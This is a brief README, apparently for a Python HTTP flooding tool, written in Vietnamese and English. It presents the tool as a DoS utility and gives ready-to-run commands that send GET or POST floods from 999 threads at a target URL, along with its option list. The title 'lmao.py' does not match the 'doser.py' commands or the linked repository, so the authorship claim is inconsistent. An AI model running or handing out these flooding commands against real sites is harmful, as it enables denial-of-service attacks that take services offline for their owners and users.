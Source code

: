 # lmao.py
Công cụ DoS cho các yêu cầu HTTP (lấy cảm hứng từ hulk nhưng có nhiều chức năng hơn) được viết bằng Python:
![](https://raw.githubusercontent.com/Quitten/doser.py/master/doser.jpg)

# Ví Dụ
999 threads sends GET requests:

```bash
python doser.py -t 999 -g 'https://targeted.site.com'
```

999 threads sends POST requests with json data:

```bash
python doser.py -t 999 -p 'https://targeted.site.com' -ah 'Content-Type: application/json' -d '{"json": "payload"}'
```

# Cách sử dụng
usage: doser.py [-h] [-g G] [-p P] [-d D] [-ah AH] [-t T]

Các tùy chọn :

  -h, --help  show this help message and exit
  
  -g        Specify GET request. Usage: -g '< url >'
  
  -p        Specify POST request. Usage: -p '< url >'
  
  -d        Specify data payload for POST request
  
  -ah      Specify addtional header
  
  -t        Specify number of threads to be used

# BY:
Duong Quang Truong :)
